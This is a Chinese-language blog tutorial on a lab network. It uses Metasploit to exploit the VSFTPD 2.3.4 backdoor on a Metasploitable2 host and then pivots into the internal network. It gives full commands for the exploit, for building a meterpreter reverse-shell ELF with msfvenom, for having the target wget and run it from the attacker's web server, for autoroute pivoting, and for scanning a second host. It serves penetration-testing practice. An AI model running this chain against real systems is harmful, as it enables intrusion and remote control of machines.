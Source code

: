 ```yaml
---
layout: post
category: binghe-code-hack
title: Metasploit攻击VSFTPD2.3.4后门漏洞并渗透内网
tagline: by CurleyG
tag: [hack,binghe-code-hack]
excerpt: Metasploit攻击VSFTPD2.3.4后门漏洞并渗透内网
lock: need
---
```


# Metasploit攻击VSFTPD2.3.4后门漏洞并渗透内网

攻击机：Kali 192.168.109.137

靶机：Metasploitable2 192.168.109.140

内网另一主机： Metasploitable2 192.168.109.159

工具：Metasploit

## 开启MSF

```
msfconsole
```

## 扫描指定主机的服务和端口

```
nmap -sV -p 21,22,25,80,110,443,445 192.168.109.140
```

如果要存入MSF的数据库，则：

```
db_nmap -sV -p 21,22,25,80,110,443,445 192.168.109.140
```

## 列出在目标端口上运行的服务

```
services
```

## 过滤服务只显示开启的服务

```
services -u
```

## 列出数据库中所有的主机

```
hosts
```

## 漏洞攻击

```
use exploit/unix/ftp/vsftpd_234_backdoor
show options
set RHOST 192.168.109.140
set RPORT 21
show payloads
set payload cmd/unix/interact
exploit
```

注：所有操作都是在MSF终端下

**这里，我们继续将Shell控制升级为Meterpreter命令行。**

在攻击机Kali上重新开启一个终端：

## 生成反弹木马

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST 192.168.109.137 LPORT 4444 -f elf > backdoor.elf
```

注：elf是Linux系统下的默认扩展名

## 启动Kali上的Apache服务，并将backdoor.elf放置到服务器中

```
service apache2 start
mv backdoor.elf /var/www/html/
```

这样，就可以让目标系统从我们的计算机中下载这个木马文件了。

## 在目标机上下载木马文件

切换到第6步的终端，执行命令：

```
wget http://192.168.109.137/backdoor.elf
```

即将木马文件下载到了目标机上

## 在新开启的终端上执行如下命令

```
msfconsole
use exploit/multi/handler
set payload linux/x86/meterpreter/reverse_tcp
set LHOST 192.168.109.137
set LPORT 4444
exploit
```

## 在目标机上运行木马文件

切换到第6步的终端，执行命令：

```
chmod 7777 backdoor.elf
./backdoor.elf
```

## 查看反弹的Meterpreter终端

回到新开启的终端上查看，此时，我们看到已经反弹回Meterpreter命令行了。

接下来，就可以在Meterpreter终端进行操作了。

**下面，我们渗透内部网络。**

## 查看ARP内容

```
arp
```

由输出可以看出，内网中有另一主机IP地址为：192.168.109.159

**为了渗透进入这个内部网络，需要在成功渗透的主机上使用autoroute命令来设置跳板。**

## 设置跳板

在Meterpreter终端执行：

```
run autoroute -p
run autoroute -s 192.168.109.0 255.255.255.0
run autoroute -p
```

此时，我们的MSF就可以通过这个Meterpreter会话连接到内部网络。

## 将Meterpreter会话切换到后台

```
background
```

接下来就对这个网络中IP地址为192.168.109.159的主机使用auxiliary/scanner/portscan/tcp辅助模块进行一次端口扫描

## 对内网主机192.168.109.159进行端口扫描

```
use auxiliary/scanner/portscan/tcp
show options
setg RHOSTS 192.168.109.159
run
```

注意：设置RHOSTS的值时，这里使用的是setg命令，这样就会使RHOSTS的值设置为全局的192.168.109.159，从而无需反复输入这个命令。

由输出可知，在192.168.109.159上运行着很多服务，而且80端口是开放的。接下来使用auxiliary/scanner/http/http_version来验证目标主机在80端口上运行的服务。

## 验证192.168.109.159 80端口运行的服务

```
use auxiliary/scanner/http/http_version
show options
set RHOSTS 192.168.109.159
run
```

由输出可知，在主机80端口上运行的是Apache2.2.8服务器，其中的PHP 5.2.4版本是存在漏洞的，可以被攻击者获取对目标系统的控制。



## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)

